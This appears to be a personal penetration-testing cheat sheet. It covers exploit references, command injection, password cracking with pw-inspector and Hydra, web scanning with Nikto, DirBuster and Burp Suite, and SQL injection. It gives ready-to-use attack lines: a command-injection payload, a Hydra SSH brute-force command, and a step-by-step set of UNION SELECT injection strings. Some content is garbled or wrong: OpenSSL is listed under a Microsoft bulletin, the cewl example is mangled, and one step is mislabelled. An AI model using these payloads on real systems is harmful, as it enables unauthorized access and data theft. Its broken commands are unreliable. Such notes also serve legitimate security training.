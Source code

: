 # Table of Contents

 1. Exploits 
 2. Command Injection
 3. Password Cracking
 4. Web Application Testing
 5. Database Attacks

### Exploits 

#### Server-side
##### Windows 
 - MS 03-026
 - MS 04-011
 - MS 08-067 (CVE-2008-4250)
 - MS 17-010 (CVE-2017-0144)
##### OpenSSL
- MS 03-026


## Command Injection

    perl -MURI::Escape -le 'print uri_escape shift' '|ls -l test.cgi'


## Password Cracking

### Wordlists
You can manipulate wordlists to fit policy using **pw-inspector**.

*flags*:

-i		input file

-o	output file

-m	minimum length

-M 	maximum length

-c minimum number of the following policy criteria 

-l lowercase

-u uppercase

-n numeric

-p printable character

-s special character

**example:**

    cat rockyou.txt | pw-inspector -m 10 -n -u -l -p 3 -c3

 You can generate wordlists from web pages using **cwel**
*flags*:

-d depth

-m	minimum length

-w 	maximum length

**example:**

    cat --d 0 - m3 -w testwords.txt http://thecyberacademy.org


### Online Password Guessing 

#### Hydra
You can crack passwords online using **Hyrdra** (or Gui version **xHydra**).

*notes*:
- Hydra uses 16 threads default.
- View [*Step 7*](https://null-byte.wonderhowto.com/how-to/hack-like-pro-crack-online-web-form-passwords-with-thc-hydra-burp-suite-0160643/) to see how to do login forms.
- View [*Github*](https://github.com/vanhauser-thc/thc-hydra) page for more detailed instructions (may be too new).
- View *[Kali Tools](https://tools.kali.org/password-attacks/hydra)* page for man page like details.
- View *[Blog post](https://www.hackingarticles.in/comprehensive-guide-on-hydra-a-brute-forcing-tool/)* for further detailed examples.

*flags*:
-l		singular username
-L	 username file
-P	password file
-t	threads

**example:**

    hydra -l admin -P /usr/share/dirb/wordlists/small.txt 192.168.1.101 ssh 


## Web Application Testing

### Scanning for Vulnerabilities

#### Nikto
You can use **Nikto** to perform an advance scan of a web server.

*flags*:

-host		host obviously

**example:**

    nikto -host 192.168.1.5

### Finding Content
#### DirBuster
You can use **DirBuster** to perform a brute-force attack to identify.

*note*:
use the *directory-list-small* wordlist.

### Intercepting Proxy

#### Burpsuite
You can use **Burpsuite** to perform an advance scan of a web server.

*note*:
You must enable *Manual Proxy Configuration* on Iceweasel via *Edit>Preferences and select Advanced and Network*. Then when navigating you must click *FORWARD* on proxy menu of *burpsuite*. 

*instructions*:
To finish

## Database Attacks
### SQL injection
You can inject commands into database queries.

*notes*:
- View [*Cheat Sheet*](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet) for extra resources.

#### All Seeing Eye
Use this to return all.

`OR 1=1 UNION SELECT id, instock, NULL, NULL from inventory --%20`

#### Determine the Number of Columns
Iterate UNION SELECT NULLs until achieved.

`' UNION SELECT NULL, NULL, NULL, NULL --%20` 

#### Determine the Table Name
Iterate Table name until achieved.

`' UNION SELECT NULL, NULL, NULL, NULL from [TABLENAME] --%20` 

#### Determine the Column Name
Alter one NULL to Iterate Column name until achieved.

`' UNION SELECT [COLUMN], NULL, NULL, NULL from [TABLENAME] --%20` 

#### Determine the Username
Alter one NULL to database() function.
`' UNION SELECT database(), NULL, NULL, NULL --%20`
